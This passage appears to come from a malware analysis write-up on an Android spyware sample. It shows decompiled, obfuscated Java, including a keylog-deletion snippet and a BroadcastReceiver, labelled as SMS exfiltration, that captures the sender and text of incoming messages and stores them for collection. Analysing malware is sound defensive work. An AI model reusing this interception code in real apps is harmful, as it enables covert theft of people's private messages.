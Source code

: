 ```java
                        if (ma93efdbbced5be26.equals("keylogs")) {
                            caf5aa5dc1.m50dcc7c525de53b8().deleteAllDataFrom(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-87, -11, -17, -57, -51, -108, -73, -107, 39, -74, 109, 121, 117, 11, -64, -97}));
                        }
                        try {
                            new JSONObject(hashMap3.get(caf5aa5dc1.ma93efdbbced5be26(new byte[]{55, -102, 112, -77, 79, 86, 20, 101, 15, -55, 61, -79, 85, -115, 29, -36})).toString());
                        } catch (Exception e) {
                            e.printStackTrace();
                        }
                    }
                });
                return;
[TRUNCATED]
```

### SMS Exfiltration Class `cf31ebb589`

Class extends the broadcast receivers found from the earlier analysis of the components in part one. Grabs content of received sms and adds it to a JSON file locally.

```java
/* loaded from: classes.dex */
public final class cf31ebb589 extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public final void onReceive(Context context, Intent intent) {
        if (intent.getAction().equalsIgnoreCase("android.provider.Telephony.SMS_RECEIVED")) {
            Bundle extras = intent.getExtras();
            if (extras != null && extras.containsKey("pdus")) {
                try {
                    byte b = -57;
                    Object[] objArr = (Object[]) extras.get(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-69, 20, 0, 94, -8, 63, -109, 64, -57, -23, -4, -58, -69, 113, -54, 106}));
                    JSONObject jSONObject = new JSONObject();
                    if (objArr != null && objArr.length >= 1) {
                        int i = 0;
                        while (i < objArr.length) {
                            SmsMessage createFromPdu = SmsMessage.createFromPdu((byte[]) objArr[i]);
                            jSONObject.put(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-1, -1, -72, -64, 2, 73, -124, 25, -5, b, -3, 103, -55, 56, -28, 9}), createFromPdu.getOriginatingAddress());
                            jSONObject.put(caf5aa5dc1.ma93efdbbced5be26(new byte[]{55, -102, 112, -77, 79, 86, 20, 101, 15, -55, 61, -79, 85, -115, 29, -36}), createFromPdu.getMessageBody().toString());
                            i++;
                            b = -57;
                        }
                    }
                    if (Boolean.parseBoolean(String.valueOf(c91a971a13.m0e596c8347e011df(cd927992a4.f3e84400eab181d3d3b5, Boolean.TRUE)))) {
                        caf5aa5dc1.m50dcc7c525de53b8().addDataInTable(0, new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-62, -76, 40, 91, -75, 20, 121, 44, 66, -4, -96, -40, -41, -6, 12, 16}), caf5aa5dc1.ma93efdbbced5be26(new byte[]{34, -10, -85, -19, 52, -70, 54, 24, 118, 9, -20, -76, -67, 21, -87, 105})), new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{41, 82, -66, -36, -71, -74, 100, -95, 5, -33, 50, 36, -91, -122, 126, 16}), jSONObject.toString()), new cecc425c9b(caf5aa5dc1.ma93efdbbced5be26(new byte[]{-18, 32, -123, 3, -71, -95, -54, 114, -32, 57, -94, 17, -62, -36, -80, 38}), String.valueOf(System.currentTimeMillis() / 1000)));
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
            if (Boolean.parseBoolean(String.valueOf(c91a971a13.m0e596c8347e011df(cd927992a4.f70b5131059aa24b5038, Boolean.FALSE)))) {
```